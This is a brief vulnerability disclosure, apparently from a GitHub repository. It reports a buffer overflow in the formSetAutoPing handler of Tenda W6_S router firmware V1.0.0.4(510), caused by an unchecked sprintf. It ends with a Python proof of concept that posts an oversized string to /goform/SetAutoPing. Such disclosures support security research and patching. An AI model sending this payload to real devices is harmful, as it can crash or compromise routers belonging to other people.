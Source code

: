 # buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formSetAutoPing

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](5.png)

get value from ping1, then call sprintf, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetAutoPing"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'index': payload, 'linkEn':1})
``` 
